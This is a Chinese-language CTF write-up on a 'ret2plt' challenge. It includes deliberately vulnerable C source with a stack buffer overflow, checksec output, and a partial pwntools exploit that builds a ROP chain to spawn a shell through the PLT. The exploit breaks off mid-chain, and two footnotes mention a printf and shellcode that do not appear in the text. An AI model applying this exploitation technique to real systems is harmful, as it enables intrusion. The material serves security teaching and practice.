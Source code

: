 ## ret2plt

### 源码

```cpp
#include "stdio.h"
#include "stdlib.h"
#include "unistd.h"

char name[0x10];

int main(int argc, char const *argv[])
{
    setvbuf(stdout,0,2,0);
    setvbuf(stdin,0,2,0);
    char buf[0x10];
    system("echo what is your name?");
    read(0,name,0x10);
    puts("Say something: ");
    read(0,buf,0x40);
    return 0;
}
```

### Makefile

`gcc -fno-stack-protector -no-pie -o ret2plt ret2plt.c`

### 考点

Return to PLT

通过使用 PLT表构成 gadget

### 分析

1. `checksec`分析

   ```
   [*] '/ctf/work/ret2plt'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. `objdump`取`name`地址：`0x404070`

3. `ROPgadget`构造链

### Exp

```python
from pwn import *

r = process("./ret2plt")

r.recvuntil("?\n")
r.send("sh\x00")

r.recvuntil(" \n")
p = b'a' * 0x18
p += p64(0x401293) # pop rdi;ret
p += p64(0x404070) # name address
p += p64(0x40101a) # ret
```

[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*